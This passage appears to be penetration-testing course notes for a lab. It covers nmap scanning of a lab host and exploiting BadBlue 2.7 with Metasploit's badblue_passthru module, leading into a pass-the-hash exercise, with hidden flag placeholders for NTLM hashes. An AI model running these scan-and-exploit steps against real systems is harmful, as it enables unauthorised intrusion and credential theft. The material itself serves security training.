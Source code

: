 

<details><summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary></details>



<details><summary>Reveal Flag - Student NTLM Hash is: 🚩</summary></details>



<details><summary>Reveal Flag - SysKey is: 🚩</summary></details>

------

## Lab 3 - Pass-the-hash

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 2
>
> - Target IP changed: `10.2.29.32`
> - Use **Pass-the-hash** attack
> - Both Kali Machine and Attacker/Victim Windows machine are provided

### Enumeration & Exploitation

```bash
nmap 10.2.23.202
```

```bash
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

```bash
nmap -sV -p 80 10.2.23.202
```

```bash
80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- 📌 Exploit **BadBlue 2.7** with `metasploit`

```bash
msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.23.202
run
```

